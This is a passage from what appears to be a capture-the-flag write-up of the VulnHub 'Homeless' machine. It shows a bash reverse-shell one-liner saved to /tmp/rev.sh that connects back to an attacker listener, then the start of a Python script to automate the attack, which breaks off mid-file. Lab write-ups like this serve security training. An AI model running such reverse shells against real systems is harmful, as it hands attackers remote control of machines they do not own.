 We create a shell file on the file system

```sh
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/192.168.56.153/448 0>&1' > /tmp/rev.sh
```

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2007:41:09.png)

And get a reverse shell

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2007:41:28.png)

Now let's automate it!

# Auto Reverse Shell

We will use our python skeleton

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it's

![](https://0x4rt3mis.github.io/assets/img/vulnhub/2021-11-13-VulnHub-Homeless/2021-11-13-VulnHub-Homeless%2008:18:21.png)

auto_rev.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell - Homeless - VulnHub

import argparse
import requests
import sys
import urllib.parse
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
```